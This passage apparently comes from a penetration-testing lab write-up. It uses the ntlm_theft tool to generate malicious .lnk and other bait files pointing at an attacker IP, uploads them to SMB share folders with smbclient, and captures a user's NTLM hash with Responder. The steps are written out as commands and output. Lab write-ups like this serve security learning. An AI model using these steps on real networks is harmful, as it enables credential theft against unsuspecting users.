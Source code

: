 - Moving on to the NTLM Theft technique i decided to use the [`ntlm_theft`](https://github.com/Greenwolf/ntlm_theft.git) tool from ***Green Wolf*** to exploit this by generating a malicious `.LNK` file that will get executed by the automated user in that share and then return their hashes. ( That is if there is any, but let try :] )

```bash
❯ python3 ntlm_theft.py -g all -s 192.168.45.235 -f test

Created: test/test.scf (BROWSE TO FOLDER)
Created: test/test-(url).url (BROWSE TO FOLDER)
Created: test/test-(icon).url (BROWSE TO FOLDER)
Created: test/test.lnk (BROWSE TO FOLDER)
Created: test/test.rtf (OPEN)
Created: test/test-(stylesheet).xml (OPEN)
Created: test/test-(fulldocx).xml (OPEN)       
Created: test/test.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: test/test-(includepicture).docx (OPEN)
Created: test/test-(remotetemplate).docx (OPEN)
Created: test/test-(frameset).docx (OPEN)
Created: test/test-(externalcell).xlsx (OPEN)
Created: test/test.wax (OPEN)
Created: test/test.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: test/test.asx (OPEN)
Created: test/test.jnlp (OPEN)
Created: test/test.application (DOWNLOAD AND OPEN)
Created: test/test.pdf (OPEN AND ALLOW)
Created: test/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: test/Autorun.inf (BROWSE TO FOLDER)
Created: test/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

- After generating i uploaded the `test.lnk` file to each directory in the share cos i don't know where the automation is taking place ☹️. 

```
❯ smbclient \\\\192.168.165.30\\nara\\
Password for [WORKGROUP\sec-fortress]:
Try "help" to get a list of possible commands.
smb: \> put test.lnk
putting file test.lnk as \test.lnk (0.7 kb/s) (average 0.7 kb/s)
smb: \> cd IT
smb: \IT\> put test.lnk
putting file test.lnk as \IT\test.lnk (1.5 kb/s) (average 0.9 kb/s)
smb: \IT\> cd ..\
smb: \> cd Documents\
smb: \Documents\> put test.lnk
putting file test.lnk as \Documents\test.lnk (4.3 kb/s) (average 1.3 kb/s)
smb: \Documents\> 
```

- Then started up `responder` and hell yeah i got user `Tracy.White` hash which we discovered earlier.
